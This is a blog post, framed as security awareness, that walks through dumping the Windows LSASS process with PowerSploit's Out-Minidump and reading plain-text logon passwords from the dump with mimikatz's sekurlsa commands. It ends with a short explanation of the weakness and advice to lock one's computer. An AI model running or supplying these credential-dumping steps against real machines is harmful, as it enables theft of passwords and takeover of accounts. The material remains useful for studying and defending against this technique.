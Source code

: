 ```yaml
---
layout: post
title: Your Windows passwords are vulnerable and hackable in less than 5 minutes
description: This is simple how-to article demonstrating your Windows passwords are hackable in less than 5 minutes if you don't lock your computer.
keywords: Windows passwords, logon password, LsaProtectMemory, LsaUnprotectMemory, lsass.exe, Windows vulnerability, mimikatz terminal, powershell script, out-minidump, minidump
tags: [Windows, PowerShell, Vulnerability, Encryption, Decryption]
comments: true
---
```


Did you know that you can get your Windows password in a plain text, and it can be done in less than 5 minutes?

Yep, even in Windows 10, the method is still working nicely. The method is not new at all. So, let me show how you can test with your own just by using a simple exploitation tool and PowerShell script. This is what can happen when we left our computer unlocked and anyone can disable our anti-virus software.

### Getting started

First, you need to download/get this tool called [mimikatz](https://github.com/gentilkiwi/mimikatz/releases/latest) (get the binary package, e.g. **mimikatz_trunk.zip**) and this PowerShell script [Out-Minidump.ps1](https://raw.github.com/mattifestation/PowerSploit/master/Exfiltration/Out-Minidump.ps1) by Matthew Graeber.

### Using PowerShell to perform memory dump

To perform the [LSASS](https://technet.microsoft.com/en-us/library/cc961760.aspx) dump, we will use the PowerShell script, **Out-Minidump.ps1**. The flow of cmdlet will look like this:

![PowerShell cmdlet](http://i.imgur.com/1lQnyhZ.png)

```powershell
. 'G:\USERFILES\Desktop\PowerShell Playground\Out-Minidump.ps1'
# "dot sourcing" method to import function from the script

Get-Process lsass | Out-Minidump
# To perform the LSASS dump

Copy-Item .\lsass_868.dmp 'G:\USERFILES\Desktop\PowerShell Playground'
# Copy the dump file to desired location
```

### Using mimikatz terminal program to view the passwords

As you can see, `lsass_868.dmp` is the LSASS dump we captured in PowerShell. Now, it's time we use the mimikatz terminal to load in the dump file as follows:

```
sekurlsa::minidump "G:\USERFILES\Desktop\PowerShell Playground\lsass_868.dmp"
```

![mimikatz MINIDUMP](http://i.imgur.com/OPA0g0w.png)

Switching to MINIDUMP file, so now we can view the passwords. Now, run this command to display all the accounts and passwords available:

```
sekurlsa::logonPasswords full
```

![mimikatz logonPasswords](http://i.imgur.com/nWPZUIR.jpg)

Tadaa... Now I can see my actual Microsoft Account username and password in **a plain text**. As you imagine, most of people nowadays are using the same password for almost everything. So, I expected you can picture all the consequences with this vulnerability...

### Vulnerability

The fact is that the password is encrypted but it's useless as the implementation depends on two basic Win32 functions; [LsaProtectMemory](https://msdn.microsoft.com/en-us/library/windows/desktop/ff714509%28v=vs.85%29.aspx) (the encryption function) and [LsaUnprotectMemory](https://msdn.microsoft.com/en-us/library/windows/desktop/ff714510(v=vs.85).aspx) (the decryption function). And Windows stores encrypted user passwords in memory without using one-way hash which is decryptable using LsaUnprotectMemory function to a plain text.

### Bottom line

For more explanations and security advices, you might want to check the [original article here](http://www.fixedbyvonnie.com/2015/02/hack-passwords-of-windows-in-5-minutes). So, my bottom line here... **Always keep your computer locked when you're not using it.**

_Note: This article is just to remind me or anyone else to always be careful in whatever you do especially with anything to do with passwords and personal credential information._
